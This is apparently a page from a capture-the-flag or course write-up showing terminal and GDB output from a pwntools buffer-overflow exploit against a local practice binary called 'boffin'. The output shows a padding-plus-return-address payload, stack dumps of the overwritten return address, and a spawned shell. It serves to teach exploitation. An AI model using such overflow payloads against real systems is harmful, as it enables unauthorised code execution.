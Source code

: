 GDB
```
┌──(kali㉿kali)-[~/Desktop/4-Week]
└─$ python3 Boffin_Pwn.py
[*] Switching to interactive mode

Hi, AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x1a\x07@
Breakpoint 1, 0x0000000000400719 in main ()
(gdb) $ info registers rip
rip            0x400719            0x400719 <main+67>
(gdb) $ x/20x $sp
0x7fffffffddd0:    0x41414141    0x41414141    0x41414141    0x41414141
0x7fffffffdde0:    0x41414141    0x41414141    0x41414141    0x41414141
0x7fffffffddf0:    0x41414141    0x41414141    0x0040071a    0x00000000
0x7fffffffde00:    0x0040069d    0x00000000    0x004006d6    0x00000000
0x7fffffffde10:    0x00000000    0x00000001    0xffffdf08    0x00007fff
(gdb) $ c
Continuing.

Breakpoint 2, 0x000000000040071a in main ()
(gdb) $ info registers rip
rip            0x40071a            0x40071a <main+68>
(gdb) $ x/20x $sp
0x7fffffffddf8:    0x0040071a    0x00000000    0x0040069d    0x00000000
0x7fffffffde08:    0x004006d6    0x00000000    0x00000000    0x00000001
0x7fffffffde18:    0xffffdf08    0x00007fff    0xffffdf08    0x00007fff
0x7fffffffde28:    0x0b07d062    0xaa96638a    0x00000000    0x00000000
0x7fffffffde38:    0xffffdf18    0x00007fff    0x00000000    0x00000000
(gdb) $ c
Continuing.

Breakpoint 2, 0x000000000040071a in main ()
(gdb) $ info registers rip
rip            0x40071a            0x40071a <main+68>
(gdb) $ x/20x $sp
0x7fffffffde00:    0x0040069d    0x00000000    0x004006d6    0x00000000
0x7fffffffde10:    0x00000000    0x00000001    0xffffdf08    0x00007fff
0x7fffffffde20:    0xffffdf08    0x00007fff    0x0b07d062    0xaa96638a
0x7fffffffde30:    0x00000000    0x00000000    0xffffdf18    0x00007fff
0x7fffffffde40:    0x00000000    0x00000000    0xf7ffd000    0x00007fff
(gdb) $ c
Continuing.
[Detaching after vfork from child process 405647]

$  zsh: suspended (signal)  python3 Boffin_Pwn.py

```

Local run:
```
┌──(kali㉿kali)-[~/Desktop/4-Week]
└─$ python3 Boffin_Pwn.py
[+] Starting local process './boffin': pid 360209
/home/kali/Desktop/4-Week/Boffin_Pwn.py:114: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  p.recvuntil("Hey! What's your name?")
[*] Switching to interactive mode

Hi, AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x1a\x07@
$ whoami
kali
$ pwd
/home/kali/Desktop/4-Week
$  zsh: suspended (signal)  python3 Boffin_Pwn.py

```
